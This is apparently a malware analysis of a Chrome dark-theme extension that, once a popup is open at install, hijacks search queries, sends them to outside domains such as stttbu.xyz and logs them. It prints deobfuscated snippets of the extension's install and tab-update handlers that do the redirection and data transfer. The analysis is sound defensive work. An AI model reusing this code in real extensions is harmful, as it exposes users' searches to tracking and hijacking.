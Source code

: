 # Code Analysis
After dissecting the Obfuscated javascript code we learn the following: 
apart from using the setLight and stopLight messages between the background.js and the content.js to switch between the background color to either black or original, the extension can do a few extra things which all depend on one API call, the “chrome.runtime.onInstalled”:
```javascript
chrome.runtime.onInstalled.addListener(function (e) {
	if("install" === e.reason)
		chrome.windows.getAll({populate: !0}, (tabs) => {
			var t;
			for (let j= 0; j <= tabs.length - 1; j++)
				tabs[j].type.includes(cobal("peachpuff", 5, 7)) &&
				(eu(), setTimeout(function () {
						darkerput(1800);
						chrome.tabs.create({url: "https://hjk7.xyz/ty?id=" + exid.split("").reverse().join("")})
						chrome.windows.remove(tabs[j].id, function () {
						});
					}, 1e3)
				)
		}), fetch(ty);
});
```
This will trigger the full capability of this extension. To better understand this, let's break down the call into a few key points:

1.	onInstalled.addListener sets up an event listener that triggers when the extension is either installed or updated, the if(“install” == e.reason) means the following will trigger only for when the extension is first installed.

2.	Chrome.windows.getAll - This line retrieves data from all open windows and their tabs.

3.	tabs[j].type.includes(cobal("peachpuff", 5, 7)) && - this condition will determine if the extension will run maliciously or not, since it has a &&, for the next few functions to run, this condition needs to be met.

  	cobal() is a string manipulation function, which with the provided string, it comes out as ‘pu’, tabs.type is the type of tab you have open, it can only be a few options: normal, popup, panel, app and devtools. 

**This means that for the extension to reveal its true behavior, a popup window needs to be open during the installation process.** 

# No Popup
When no popup windows are present, the extension will skip over the eu(), darkerput() and the tab creation and removal seen above. Because of that, the “initial” value which is stored inside the chrome.storage will not be defined as “default”:
![image](https://github.com/user-attachments/assets/a0ec0ef4-054e-45f6-bae8-8d3f5857ff98)

This means the variable “i” will remain undefined since “initial” != “default”:
```javascript
chrome.storage.local.get(["initalcolor"], function (s) {
	if (s.color === "default")
		i = true
});
```
leading to skipping the entire 370 lines of code after this “if” condition which is un-met:
```javascript
if (i == !0 && s == !1 && "loading" === tab.status && !colchk(cobal("Bhaclebstoc blue", 5, 10)))
```
This part of the code after the "if" condition, is in charge of the malicious activities it can preform, without it the extension performs like any other simple dark theme extension.

# With Popup
If one of the tabs is considered a popup, the rest of the code under the runtime.onInstalled runs: 

•	The function eu() is triggered, setting i = true, which will allow the code within the chrome.tabs.onUpdated.addListener (containing the if condition above)  
to be executed later.

•	A new tab is opened with the URL contructed by reversing the ‘exid’ meaning: 
```https://hjk7.xyz/ty?id=mhfalkcmmkajgecgcnaceipcoenh```

•	The tab containing the popup will close

•	The fetch command will trigger a request being made for an external domain.

From this point the following behavior can be seen when using a search engine: 

1.	Typing something in the search engine like google will trigger the chrome.tabs.onUpdated:
```javascript
chrome.tabs.onUpdated.addListener(function (tabid, status, tab) {
	tu = tab.url, colchk(exid) && !colchk("errors") && colos(tabid)
	function rgbConverthsl({ h, s, l, a = 1 }) {
		if (s === 0) {
			const [r, b, g] = [l, l, l].map((x) => Math.round(x * 255));
			return { r, g, b, a };
		}
```
2. 	The URL is checked if it contains the ‘exid’ and ‘errors’ strings, if it contains the ‘exid’ and not the ‘errors’, the tab will close (using the colos() function).

3.	It passes through the “if” condition we’ve talked about earlier (since “i” is now defined)
 

4.	The payload containing the search query is saved inside the “c” variable

5.	A new tab is opened and redirected to ```https://stttbu.xyz/ssc/pda?p={added payload}```
essentially meaning it uses a GET request to transfer my search query to an external domain

6.	We are then being redirected to this URL - ```https://www.bettertab.xyz/searchapi/redirect.aspx?q={added payload}&channel=2188
&pid=bbtab```

7.	To then being redirected a final time to bing.com - ```https://www.bing.com/search?q={added payload}```

8.	Once the process is finished, the original tab with the initial query for google.com is closed. (the entire process takes about 1.5-2 seconds)

9.	Before completing its process, it also creates an array using the “c” variable to store all the payloads we've inputted (essentially tracking my activity). Here’s an example after numerous searches:

![image](https://github.com/user-attachments/assets/33d8ab14-7822-4cef-8d81-9e85b0edfec3)

10. Last thing to mention besides the different delays it’s invoking, the extension sends the setLight message:  setTimeout(()=>chrome.tabs.sendMessage(e.id, {setLight: 1}), 5e3).
Inside the content.js it triggers the continueSetLight function: 
```javascript
function darkSet(request, sender, sendResponse) {
	if(request.setLight)
		continueSetLight(request, sender, sendResponse);
	if (request.stoplight) {
```
```javascript
function continueSetLight(request, sender, sendResponse) {
	document.getElementById('bg') && (document.getElementById('sb_feedback').style.backgroundColor = 'white')
	document.getElementById('bg') && (document.getElementById('bg').style.backgroundColor = 'white')
	document.getElementById('sb') && (document.getElementById('sb').style.backgroundColor = 'white')
	document.getElementById('fg') && (document.getElementById('fg').style.backgroundColor = 'white')
	document.getElementById('sb_feedback') && (document.getElementById('sb_feedback').style.display = 'none')
}
```
Besides enabling "Light Mode" and changing the background color of several DOM elements to white, it also hides the 'sb_feedback' element, which conceals a button on the bing.com page:

![image](https://github.com/user-attachments/assets/01912aa4-efb4-4315-850f-9802b074d39a)

![image](https://github.com/user-attachments/assets/e8a44342-3019-490d-9f3c-b30ed473d90b)

![image](https://github.com/user-attachments/assets/6b12edd3-3b24-4299-a587-9b314f9b612f)


# Example Process

1. ![image](https://github.com/user-attachments/assets/b9c59b22-94b9-4f7e-b92f-6d7ec25bbfca) searching something on Google
2. ![image](https://github.com/user-attachments/assets/90924973-1277-4644-9fe9-2d23647a99a8) new tab creation
3. ![image](https://github.com/user-attachments/assets/0c1432a5-e9df-43c4-8a55-4324d78031a5) Redirection 1
4. ![image](https://github.com/user-attachments/assets/5fcb1d71-f9e3-4f8d-8c65-fa1a32d72f4c) Redirection 2

When applying a search query the first domain requested is sttbu.xyz:
![image](https://github.com/user-attachments/assets/195256e6-f1a1-46cc-b2c9-67b547e2f80f)

We can observe the payload (in this case “hello”) that I entered in the Google.com search bar being uploaded and transferred to this external domain through a GET parameter. Additionally, several types of cookies are being included, which are probably used for user profiling and session management and affiliate ID’s.

The second domain which im redirected to is www.bettertab.xyz: 
Again we see my search query being transferred and some more cookie keys added: 
![image](https://github.com/user-attachments/assets/7137a310-8791-4788-bc25-f40a85a8bbdb)














